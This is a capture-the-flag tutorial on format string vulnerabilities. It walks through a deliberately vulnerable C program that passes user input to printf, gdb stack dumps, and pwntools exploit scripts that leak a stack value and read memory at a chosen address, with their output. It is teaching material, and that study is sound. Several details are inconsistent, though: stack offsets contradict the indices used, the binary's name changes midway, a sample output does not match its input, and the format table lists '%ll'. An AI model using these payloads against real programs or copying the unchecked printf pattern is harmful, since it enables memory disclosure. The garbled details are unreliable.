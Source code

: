 ```yaml
---
slug: '/capture-the-flag/format-string-vulnerability'
date: '2022-12-16'
title: 'Format String Vulnerability'
---
```


# Format String Vulnerability

## Author : Frankie Huang (IF 2021)

## Prerequisite

- GNU C Compiler (gcc)
- UNIX like operating system to run the ELF file
- pwntools

## What is a string format?

In C, we can input and output a variable value using a format specifiers by passing a certain format into `printf`, `scanf`, etc. Some commonly used formats are as follow.

| Format | Size   | Output         |
| ------ | ------ | -------------- |
| `%c`   | 1 byte | character      |
| `%d`   | 4 byte | signed integer |
| `%x`   | 4 byte | hexadecimal    |
| `%ll`  | 8 byte | long long int  |
| `%llx` | 8 byte | long long hex  |
| `%s`   |        | string         |

## How does format string vulnerability work?

Recall that in a 32-bit UNIX, we pass the arguments of a function by pushing the value in the stack followed by the function return address. Similarly, when calling the function `printf`, we are pushing n amount of values into the stack, where n are the amount of format specifiers.

Let's observe the following program.

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
    int secret_num = 0xdeadbeef;

    char name[16];
    scanf("%16s", &name);

    printf("Hello ");
    printf(name);
    printf("! You'll never get my secret!\n");
}
```

We can save the program above as `secret.c` and compile it as below.

```bash
> gcc secret.c -o secret -m32 -no-pie
```

We can then open `gdb` to debug this program. To view the current stack, use `x/40x $sp` to print the 40 top value of the stack.

Let's observe the important part of the stack right after the function `scanf` with input `Steven` is run.

```
                     .....
            0xffffd8f0 : 0xff006e65
            0xffffd8ec : 0x76657453
            0xffffd8e8 : 0xdeadbeef
            0xffffd8e4 : 0x00000000
            0xffffd8e0 : 0x00000000
            0xffffd8dc : 0x565561b4
            0xffffd8d8 : 0x00000000
            0xffffd8d4 : 0xffffd8ec
     esp -> 0xffffd8d0 : 0x56557008
```

Due to how GCC decided to lay out the stack, `secret_num` is actually at a lower address on the stack than `name`. We can see this in the stack above, where the address `0xffffd8e8` has the value of `0xdeadbeef` while the address `0xffffd8ec` to `0xffffd8f2` has the value of `0x53746576656e00` (remember that IA-32 and x86-64 CPU use the little-endian format). We can see that it holds the hex value for `Steven`.

So, what string format can we input to print the value of `secret_num`? We can input the format argument `%x.%x.%x.%x` to pop off four stack values and print them in hexadecimal. Another way to do it involves around the idea that `printf` can index to an arbitrary "argument" with the syntax `%n$llx` (where `n` is the decimal index of the argument).

In the example above, we can see that `secret_num` is located at the 7th position from the top of the stack. Recall that `%llx` takes 8 bytes of data, so we can use the command `%6$x` to print the 7th position from the top of the stack.

```bash
> ./secret
%6$x
Hello deadbeef! You'll never get my secret!
```

## Arbitrary Reads

In C, the `%s` format specifier act as a pointer to the start of the string. This is essentially a value that represents a memory address, which means when we are reading a value of the stack, we are reading _the value in the memory address_ it points at.

So, if we can find a value on the stack that happens to correspond to the memory address of the value we're looking for, then that's it. But we can also specify where we want to read using this same exploit!

Let's run the previous program again, but with a different input.

```bash
> ./secret
ABCD|%7$p
Hello ABCD|0x44434241! You'll never get my secret!
```

Recall that due to the way GCC decided to lay the stack, `name` is at a higher address than `secret_num`, which in this case, it's at the 8th position from the top of the stack. We can see that the program outputs the hexadecimal representation of `ABCD`.

Now, if we can write an address, then point `%s` at `%7$p`, then we can get an arbitrary read!

Now, let's write a quick pwntools script that write the location of the ELF file and reads it with `%s`. If all goes well, we should be able to read the first bytes of the file, which is always `\x7ELF`. Starting from the basic:

```py
from pwn import *

p = process('./secret')

payload = p32(0x41424344)
payload += b"%7$p"

p.sendline(payload)
log.info(p.clean())
```

```bash
> python3 exploit.py
[+] Starting local process './secret': pid 22336
[*] Hello DCBA0x41424344! You'll never get my secret!
```

Now that we know that it works, because all binary files have the base address of `0x8048000`, we can pass the value into the payload.

```py
from pwn import *

p = process('./secret')

payload = p32(0x8048000)
payload += b"|%7$p"

p.sendline(payload)
log.info(p.clean())
```

```bash
> python3 exploit.py
[+] Starting local process './secret': pid 22336
[*] Hello ! You'll never get my secret!
```

It doesn't work.

The reason it doesn't work is that `printf` will stop at null bytes, and the very first character of `0x8048000` is a null byte. To get around this, we have to put the format specifier first.

```py
from pwn import *

p = process('./test')

payload = b"%9$p||||"
payload += p32(0x8048000)

p.sendline(payload)
log.info(p.clean())
```

```bash
[+] Starting local process './test': pid 27109
[*] Hello 0x8048000||||! You'll never get my secret!
```

Now, let's break down the payload we used:

- The payload starts from the address `%7$p`
- When we move the format specifiers to the front, the 8th to 10th value of the stack are as follows:
  - The value of `%7$p` is the hex value of `%9$p`
  - The value of `%8$p` is the hex value of `||||`
  - The value of `%9$p` is the hex value of `0x8048000`

Another payload we can use in this scenario are `%8$p + b"0x8048000"`.

Now, we can change `%9$p` to `%9$s` to pass the address and read it with `%s`.

```py
from pwn import *

p = process('./test')

payload = b"%9$s||||"
payload += p32(0x8048000)

p.sendline(payload)
log.info(p.clean())
```

```bash
[+] Starting local process './test': pid 27254
[*] Hello \x7fELF||||! You'll never get my secret!
```
